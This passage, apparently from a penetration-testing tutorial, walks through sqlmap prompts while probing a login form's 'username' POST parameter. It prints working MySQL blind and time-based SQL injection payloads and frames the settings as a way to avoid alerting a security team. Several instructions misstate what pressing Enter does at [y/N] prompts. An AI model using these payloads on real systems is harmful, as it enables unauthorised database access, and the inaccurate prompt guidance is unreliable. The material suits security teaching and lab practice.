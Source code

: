 ```
[INFO] testing for SQL injection on POST parameter 'username'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
```

Running tests like these will cause a lot of traffic and potetentially alert the security team to what we are doing. We're going to hit the `Enter` button, to maintain a lower risk level.
- Hit **Enter**

Next you will be asked:

```
[INFO] target URL appears to have 8 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] 
```

This is asking us if want to find UNION column types. Hit **Enter** to accept. 
- Hit **Enter**

Next you will be asked:

```
[INFO] target URL appears to be UNION injectable with 8 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
```

Now that it's found the the UNION column, it's asking us if we'd like to try using random integers for injection. Hit **Enter** to accept.


Next we will be asked:

```
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 413 HTTP(s) requests:
```

SQLmap found one username we can test **username**. SQLmap wants to know if it should keep trying other names. Explain that we're going to to hit **Enter** to test as many names as possible. 
- Hit **Enter**

Lastly, you will see:

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=xalN' RLIKE (SELECT (CASE WHEN (7674=7674) THEN 0x78616c4e ELSE 0x28 END))-- Cxmg&passwd=&submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=xalN' AND (SELECT 7043 FROM (SELECT(SLEEP(5)))Znez)-- BCTT&passwd=&submit=Submit
---
do you want to exploit this SQL injection? [Y/n] 

```
